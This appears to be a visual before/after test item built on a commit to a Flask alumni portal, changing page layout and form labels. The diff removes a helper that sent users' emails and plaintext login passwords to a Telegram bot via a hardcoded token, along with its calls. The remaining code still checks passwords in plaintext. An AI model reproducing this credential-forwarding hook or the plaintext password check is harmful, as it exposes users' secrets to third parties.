

Before and after one commit to Carol-ynne/Alumni-Database-Portal, a Flask app: page /usersignup in a window 1280 px wide. Shown: the part 401-884 px from the top of the page. After the commit the page ends 802 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Caroline

```diff
--- a/app.py
+++ b/app.py
@@ -47,13 +47,7 @@ def load_user(user_id):
 
 
 
-
-def sendtelegram(params):
-    url = "https://api.telegram.org/bot5787281305:AAE1S8DSnMAyQuzAnXOHfxLq-iyvPwYJeAo/sendMessage?chat_id=-1001556929308&text=" + urllib.parse.quote(params)
-    content = urllib.request.urlopen(url).read()
-    print(content)
-    return content
-
+#
 ''''
 #login for admin
 class User:
@@ -358,7 +352,6 @@ def upload_image():
 @app.route('/')
 def index():
     session['selectedYear'] = "2022"
-    sendtelegram('Current selected Year: ' + session['selectedYear'])
     return render_template('index.html')
 
 @app.route('/addschool' , methods=['GET', 'POST'])
@@ -813,7 +806,7 @@ def signup():
 #user land area
 @app.route('/userlanding')
 def userlanding():
-    sendtelegram("firsttrail")
+
     return render_template('userlanding.html')
 
 @app.route('/usersignup', methods=['POST','GET'])
@@ -831,7 +824,7 @@ def usersignup():
             db.session.commit()
             login_user(user, remember=True)
             print(current_user)
-            sendtelegram('New User'+ ' ' + current_user.email +' '+ 'Just Signed Up' )
+
             return redirect(url_for('ulogin'))
         else:
             print(form.errors)
@@ -857,15 +850,15 @@ def ulogin():
             if user and form.password.data == user.password:
                 print(user.email + "validored successfully")
                 login_user(user)
-                sendtelegram(user.email +' '+ user.password +' '+ 'Logged in successfully' )
+
                 flash ('Welcome, Finish Setting up your profile ' ,'success')
                 return redirect(url_for('useryeargroup'))
                 # next = request.args.get('next')
             else:
                 flash (f'Wrong Password', 'success')
-                sendtelegram(user.email +' '+ 'Entered Wrong Password')
+               # sendtelegram(user.email +' '+ 'Entered Wrong Password')
         else:
-            sendtelegram("BEANS")
+
             flash (f'Wrong Password', 'danger')
 
 
@@ -882,7 +875,7 @@ def useryeargroup():
 @login_required
 def usernewform():
     print(session['selectedYear'])
-    sendtelegram(current_user.name + " selected Year: " + session['selectedYear'])
+
     # flash(f'Sample form', 'success')
     schools = School.query.all()
     return render_template('usernewform.html', items=schools, header="Schools / Faculty", smalltitle="2021", name="", numberofentries="16 entries")
@@ -895,7 +888,7 @@ def departments(schoolSlug):
     print(departments)
     print(school)
     print(session['selectedYear'])
-    sendtelegram(current_user.name + " selected Year: " + session['selectedYear'] + " Department " + school.name + ". Found: " + str(len(departments)) + " result(s) ")
+
     return render_template('userdepartment.html', items=departments, header=school.name, smalltitle="2021", name="", numberofentries="16 entries")
 
 @app.route('/programs/<string:departmentSlug>')
--- a/templates/layout.html
+++ b/templates/layout.html
@@ -23,8 +23,8 @@
 
       <nav class="navbar navbar-expand-lg sticky-top" style="background: #fff; ">
         <div class="container-fluid">
-          <a class="navbar-brand">
-            <img src="https://www.central.edu.gh/static/img/Central-Uni-logo.png" alt="" width="15%">
+          <a class="navbar-brand" style="margin-right:1000px;">
+            <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTodZjx2xweo24AXGGii1tirNWyrJc-sEb-HaFaxH2C&s" alt="" width="250%">
           </a>
           <button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
             <span class="navbar-toggler-icon"></span>
--- a/templates/userlogin.html
+++ b/templates/userlogin.html
@@ -30,9 +30,9 @@
       <div >
         <form action=" " class="form" method="POST">
             {{form.hidden_tag()}}
-            <img src="static/img/man.gif" alt="" width="100%" style="height: 50vh; max-height: 50vh; border-radius: 50%; object-fit: contain;" >
+            <img src="static/img/man.gif" alt="" width="100%" style="height: 45vh; max-height: 50vh; border-radius: 50%; object-fit: contain;" >
           </div>
-      <div style="text-align: center; margin-top: 5vh; ">
+      <div style="text-align: center;  ">
         <h2 style=" margin-bottom: 2vh;"> Welcome Back</h2>
 
 
--- a/templates/usersignup.html
+++ b/templates/usersignup.html
@@ -30,9 +30,9 @@
       <div >
         <form action=" " class="form" method="POST", "GET">
             {{form.hidden_tag()}}
-            <img src="static/img/girl.gif" alt="" width="100%" style="height: 50vh; max-height: 50vh; border-radius: 50%; object-fit: contain;" >
+            <img src="static/img/girl.gif" alt="" width="100%" style="height: 45vh; max-height: 50vh; border-radius: 50%; object-fit: contain;" >
         </div>
-      <div style="text-align: center; margin-top: 5vh; ">
+      <div style="text-align: center; ">
         <h2 style=" margin-bottom: 2vh;"> SIGN UP</h2>
 
 
@@ -47,11 +47,11 @@
             </div>
             <div class="form-floating mb-3" >
                 {{form.indexnumber(class="form-control", placeholder="indexnumber" ) }}
-                <label for="floatingInput" class="text-muted">indexnumber</label>
+                <label for="floatingInput" class="text-muted">Indexnumber</label>
             </div>
             <div class="form-floating mb-3" >
                 {{form.phone(class="form-control", placeholder="indexnumber" ) }}
-                <label for="floatingInput" class="text-muted">indexnumber</label>
+                <label for="floatingInput" class="text-muted">Phone</label>
             </div>
 
 
```
